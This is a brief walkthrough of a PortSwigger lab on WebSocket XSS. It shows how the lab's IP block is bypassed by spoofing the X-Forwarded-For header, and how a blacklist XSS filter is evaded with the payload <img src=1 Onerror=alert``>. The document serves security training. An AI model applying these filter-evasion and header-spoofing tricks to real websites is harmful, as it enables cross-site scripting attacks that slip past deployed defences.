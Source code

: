 # [Lab: Manipulating the WebSocket handshake to exploit vulnerabilities](https://portswigger.net/web-security/websockets/lab-manipulating-handshake-to-exploit-vulnerabilities)

## Lab

This online shop has a live chat feature implemented using WebSockets.

It has an aggressive but flawed XSS filter.

To solve the lab, use a WebSocket message to trigger an `alert()` popup in the support agent's browser.

## Characteristic

websocket

blocked after trying xss: bypass by X-Forwarded-For http header

filtered by blacklist: Obfuscating using case variation (`Onerror`) + js unusual syntax (alert\`1\`)

## Analysis

bypass : changing X-Forwarded-For to a different address every time we are blocked by server.

![bypass-waf.png](./../img/lab-2-bypass-waf.png)

to server:

  ```json
  {"message":"<script>"}
  ```

- response:

  ```json
  {"error":"Attack detected: JavaScript"}
  ```

to server:

  ```json
  {"message":"<img src=1 onerror=alert()>"}
  ```

- response:

  ```json
  {"error":"Attack detected: event"}
  ```

## Solutions

to server:

  ```json
  {"message":"<img src=1 Onerror=alert``>"}
  ```
